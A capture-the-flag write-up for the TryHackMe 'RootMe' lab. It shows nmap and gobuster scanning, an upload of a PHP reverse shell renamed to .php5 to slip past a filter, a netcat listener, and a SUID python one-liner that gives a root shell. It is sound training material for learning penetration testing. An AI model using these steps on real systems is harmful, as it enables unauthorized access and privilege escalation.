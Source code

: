 <!-- TOC -->

- [RootMe](#rootme)
    - [Reconnaissance](#reconnaissance)
    - [Getting a shell](#getting-a-shell)
    - [Privilege escalation](#privilege-escalation)

<!-- /TOC -->

# RootMe

[RootMe Room](https://tryhackme.com/room/rrootme)

A ctf for beginners, can you root me?

| Title | IP Address |
| :---- | :---- |
| RootMe | `1*.**.***.***` |

## Reconnaissance

```bash
sudo nmap -A -vv -T4 -oA initial 1*.**.***.*** 
```

> `22/tcp open *** syn-ack ttl 61 O***SSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)`

> `80/tcp open **** syn-ack ttl 61 A***** httpd 2.*.** ((Ubuntu))`

```bash
gobuster dir -u 1*.**.***.***:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt,sh,css,htm,html,js,php,py -t 100
```

> ```
> /u******              (Status: 301) [Size: 316] [--> http://1*.**.***.***/u******/]
> /index.php            (Status: 200) [Size: 616]                                    
> /css                  (Status: 301) [Size: 312] [--> http://1*.**.***.***/css/]    
> /js                   (Status: 301) [Size: 311] [--> http://1*.**.***.***/js/]     
> /p****                (Status: 301) [Size: 314] [--> http://1*.**.***.***/p****/]  
> /server-status        (Status: 403) [Size: 278]
> ```

## Getting a shell

Using the famous __pentestmonkey's PHP reverse shell__

Copy and modify `/usr/share/webshells/php/php-reverse-shell.php`

```php
// php-reverse-shell.php5
$ip = '1*.*.**.**';  // CHANGE THIS
$port = 80;       // CHANGE THIS
```

```bash
mv php-reverse-shell.php php-reverse-shell.php5
```

Upload to: `http://1*.**.***.***/p****/`

```bash
nc -lvnp 80
```

Go to: `http://1*.**.***.***/u******/php-reverse-shell.php5`

RHOST:

```bash
find / -type f -name user.txt 2>/dev/null
```

> `/***/***/user.txt`

```bash
cat /***/***/user.txt
```

> `THM{***_***_*_*****}`

## Privilege escalation

```bash
find / -perm -4000 2>/dev/null
```

> `/***/***/******`

Using [GTFOBins](https://gtfobins.github.io):

```bash
p***** -c 'import os; os.execl("/bin/sh", "sh", "-p")'
find / -type f -name root.txt
```

> `/****/root.txt`

```bash
cat /****/root.txt
```

> `THM{*********_**********}`
